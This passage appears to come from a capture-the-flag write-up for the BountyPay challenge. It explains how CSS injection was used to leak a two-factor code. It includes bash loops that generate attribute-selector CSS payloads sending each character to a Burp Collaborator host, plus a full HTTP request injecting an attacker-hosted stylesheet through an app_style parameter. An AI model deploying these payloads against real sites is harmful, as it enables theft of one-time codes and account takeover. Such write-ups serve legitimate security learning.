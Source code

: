Now we have something that works as also tag values.
We used some assumptions here and went for the input tag. We now wanted to find the input tag name

Here i should note down that i suck in programming, i do not like it, barely know it. So next steps are totally unorthodox.
So i used a bash script to create a file with all potential values based on the following template
```
input[name^=$i] ~ *{
    background-image: url(https://m6t0apr4dp787qx6rjeky7xi49a0yp.burpcollaborator.net/exfil/$i);
}
```
I included a charset of a-zA-Z0-9 and the - _ characters.
Example of my bash script was
```
for i in {a..z}; do echo "input[name^=$i] ~ *{
    background-image: url("https://m6t0apr4dp787qx6rjeky7xi49a0yp.burpcollaborator.net/exfil/$i");
}"; done > test1.css
```
So i exfiltrate one letter at a time. Building on that we reach this part
```
 for i in {a..z}; do echo "input[name^=code_$i] ~ *{
    background-image: url("https://m6t0apr4dp787qx6rjeky7xi49a0yp.burpcollaborator.net/exfil/code_$i");
}"; done >> test-name.css
```

At this point when we send the new payload css file, we got 6 requests. We were now aware that we have 6 input fields code_1 up to code_6
{F852299}

Keep working with our "bad" automation method. We created a file that included all potential values for all 6 input code fields.
Here is the file used F852310. We inject our file again in the captured request of the 2FA generation as below
```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

app_style=https://babe22004931.ngrok.io/testfinal.css
```
So we not get 6 request back. With values, so we assume we got the 2FA code. Request is presented below which show the value for input field code_1
{F852316}
